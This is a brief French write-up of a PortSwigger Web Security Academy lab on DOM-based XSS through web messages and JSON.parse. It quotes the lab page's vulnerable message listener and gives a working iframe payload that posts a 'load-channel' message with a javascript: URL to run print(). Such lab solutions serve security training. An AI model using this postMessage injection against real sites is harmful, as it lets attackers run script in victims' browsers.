 # Lab

https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages-and-json-parse

## Solution

Dans les sources de la page d'accueil on voit ce script :

```html
<script>
  window.addEventListener("message", function (e) {
      var iframe = document.createElement("iframe"), ACMEplayer = { element: iframe }, d;

      document.body.appendChild(iframe);
      try {
        d = JSON.parse(e.data);
      } catch (e) {
        return;
      }

      switch (d.type) {
        case "page-load":
          ACMEplayer.element.scrollIntoView();
          break;
        case "load-channel":
          ACMEplayer.element.src = d.url;
          break;
        case "player-height-changed":
          ACMEplayer.element.style.width = d.width + "px";
          ACMEplayer.element.style.height = d.height + "px";
          break;
      }
    },
    false
  );
</script>
```

Pour faire apparaître la pop-up `print()` on peut utiliser le code suivant :

```html
<iframe src="https://0a8400520301e60c83521e5900050083.web-security-academy.net/" onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>
```